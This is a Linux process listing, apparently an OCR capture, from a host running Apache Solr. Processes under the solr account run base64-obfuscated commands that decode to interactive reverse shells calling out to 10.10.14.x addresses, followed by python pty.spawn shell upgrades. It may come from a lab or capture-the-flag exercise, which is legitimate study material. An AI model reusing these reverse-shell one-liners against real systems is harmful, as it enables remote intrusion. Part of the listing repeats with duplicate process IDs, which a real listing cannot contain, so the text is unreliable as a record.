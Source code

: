 ```text
solr        1146  1.2 58.7 3582388 1195460 ?     Sl   Dec18  27:17 java -server -Xms512m -Xmx512m -XX:+UseG1GC -XX:+PerfDisableSharedMem -XX:+ParallelRefProcEnabled -XX:MaxGCPauseMillis=250 -XX:+UseLargePages -XX:+AlwaysPreTouch -verbose:gc -XX:+PrintHeapAtGC -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCTimeStamps -XX:+PrintTenuringDistribution -XX:+PrintGCApplicationStoppedTime -Xloggc:/var/solr/logs/solr_gc.log -XX:+UseGCLogFileRotation -XX:NumberOfGCLogFiles=9 -XX:GCLogFileSize=20M -Dsolr.log.dir=/var/solr/logs -Djetty.port=8983 -DSTOP.PORT=7983 -DSTOP.KEY=solrrocks -Dhost=127.0.0.1 -Duser.timezone=UTC -Djetty.home=/opt/solr/server -Dsolr.solr.home=/var/solr/data -Dsolr.data.home= -Dsolr.install.dir=/opt/solr -Dsolr.default.confdir=/opt/solr/server/solr/configsets/_default/conf -Dlog4j.configurationFile=file:/var/solr/log4j2.xml -Djetty.host=127.0.0.1 -Xss256k -Dsolr.jetty.https.port=8983 -Dsolr.log.muteconsole -XX:OnOutOfMemoryError=/opt/solr/bin/oom_solr.sh 8983 /var/solr/logs -jar start.jar --module=http
root        1566  0.0  1.7 1009096 34952 ?       Ssl  Dec18   1:07 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root        1582  0.0  0.0   2488   456 ?        S    Dec18   0:00 bpfilter_umh
root       22212  0.0  0.0      0     0 ?        I<   Dec18   0:00 [xfsalloc]
root       22213  0.0  0.0      0     0 ?        I<   Dec18   0:00 [xfs_mru_cache]
root       22216  0.0  0.0      0     0 ?        S    Dec18   0:00 [jfsIO]
root       22217  0.0  0.0      0     0 ?        S    Dec18   0:00 [jfsCommit]
root       22218  0.0  0.0      0     0 ?        S    Dec18   0:00 [jfsCommit]
root       22219  0.0  0.0      0     0 ?        S    Dec18   0:00 [jfsSync]
solr      330250  0.0  0.1   6892  3184 ?        S    Dec18   0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}
solr      330254  0.0  0.1   7236  3576 ?        S    Dec18   0:00 bash -i
solr      330256  0.0  0.1   7236  3700 ?        S    Dec18   0:00 bash -i
solr      332101  0.0  0.2  13152  5436 ?        S    Dec18   0:00 python -c import pty;pty.spawn("/bin/bash")
solr      332102  0.0  0.1   7104  3740 pts/0    Ss+  Dec18   0:00 /bin/bash
solr      529611  0.0  0.1   6892  3092 ?        S    Dec18   0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODYvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}
solr      529615  0.0  0.1   7236  3712 ?        S    Dec18   0:00 bash -i
solr      529617  0.0  0.1   7236  3692 ?        S    Dec18   0:00 bash -i
solr      531691  0.0  0.2  13152  5528 ?        S    Dec18   0:00 python -c import pty;pty.spawn("/bin/bash")
solr      531692  0.0  0.1   7104  3680 pts/1    Ss+  Dec18   0:00 /bin/bash
solr     1347816  0.0  0.1   6892  3244 ?        S    10:58   0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODYvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}
solr     1347820  0.0  0.1   7236  3732 ?        S    10:58   0:00 bash -i
solr     1347822  0.0  0.1   7236  3708 ?        S    10:58   0:00 bash -i
solr      332101  0.0  0.2  13152  5436 ?        S    Dec18   0:00 python -c import pty;pty.spawn("/bin/bash")
solr      332102  0.0  0.1   7104  3740 pts/0    Ss+  Dec18   0:00 /bin/bash
solr      529611  0.0  0.1   6892  3092 ?        S    Dec18   0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODYvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}
solr      529615  0.0  0.1   7236  3712 ?        S    Dec18   0:00 bash -i
solr      529617  0.0  0.1   7236  3692 ?        S    Dec18   0:00 bash -i
solr      531691  0.0  0.2  13152  5528 ?        S    Dec18   0:00 python -c import pty;pty.spawn("/bin/bash")
solr      531692  0.0  0.1   7104  3680 pts/1    Ss+  Dec18   0:00 /bin/bash
solr     1347816  0.0  0.1   6892  3244 ?        S    10:58   0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODYvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}
solr     1347820  0.0  0.1   7236  3732 ?        S    10:58   0:00 bash -i
solr     1347822  0.0  0.1   7236  3708 ?        S    10:58   0:00 bash -i
solr     1357980  0.0  0.3  15960  8020 ?        S    11:11   0:00 python3 -c import pty;pty.spawn("/bin/bash")
solr     1357981  0.0  0.1   7236  3844 pts/2    Ss+  11:11   0:00 /bin/bash
solr     1469476  0.0  0.1   6892  3192 ?        S    13:36   0:00 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODYvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}
solr     1469480  0.0  0.1   7236  3856 ?        S    13:36   0:00 bash -i
solr     1469482  0.0  0.1   7236  3836 ?        S    13:36   0:00 bash -i
solr     1469726  0.0  0.3  15828  8124 ?        S    13:36   0:00 python3 -c import pty;pty.spawn("/bin/bash")
solr     1469727  0.0  0.2   7372  4172 pts/3    Ss+  13:36   0:00 /bin/bash
root     1496658  0.0  0.4  13772  8548 ?        Ss   14:01   0:00 sshd: root@pts/4
```